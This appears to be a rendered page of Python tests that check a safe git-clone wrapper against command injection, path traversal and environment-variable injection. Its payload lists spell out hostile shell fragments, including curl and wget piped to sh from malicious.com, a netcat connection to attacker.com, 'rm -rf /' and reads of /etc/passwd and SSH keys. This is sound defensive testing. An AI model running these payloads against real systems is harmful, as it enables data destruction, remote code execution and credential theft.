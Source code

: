 ```python
        mock_run.return_value = MagicMock(returncode=0)
        
        safe_git_clone('https://github.com/user/repo.git', 'target')
        
        mock_run.assert_called_once()
        args, kwargs = mock_run.call_args
        
        # Verify security parameters
        assert 'shell' not in kwargs or kwargs['shell'] is False
        assert 'timeout' in kwargs
        assert kwargs['timeout'] <= 300
        assert 'env' in kwargs
        assert args[0][0] == 'git'
```

**Security Testing**:
```python
class SecurityPenetrationTests:
    def test_command_injection_vectors(self):
        """Test comprehensive command injection attack vectors."""
        injection_payloads = [
            '; rm -rf /',
            '&& curl malicious.com/script.sh | sh',
            '|| wget -O- malicious.com/payload',
            '`whoami`',
            '$(id)',
            '| nc attacker.com 4444',
            '; cat /etc/passwd',
            '&& sudo -n whoami',
            '|| chmod 777 /',
            '; export MALICIOUS_VAR=evil'
        ]
        
        for payload in injection_payloads:
            with pytest.raises(SecurityError):
                safe_git_clone(f'https://github.com/user/repo{payload}.git', 'target')
    
    def test_path_traversal_prevention(self):
        """Test path traversal attack prevention."""
        traversal_payloads = [
            '../../../etc/passwd',
            '..\\..\\..\\windows\\system32',
            '/etc/shadow',
            '~/.ssh/id_rsa',
            '$HOME/.bashrc'
        ]
        
        for payload in traversal_payloads:
            with pytest.raises(SecurityError):
                safe_git_clone('https://github.com/user/repo.git', payload)
    
    def test_environment_variable_injection(self):
        """Test environment variable injection prevention."""
        env_payloads = [
            'test; export MALICIOUS=$(cat /etc/passwd)',
            'test && export EVIL_VAR=malicious',
            'test || export BACKDOOR=active'
        ]
        
        for payload in env_payloads:
            with pytest.raises(SecurityError):
                safe_github_create(payload)
```

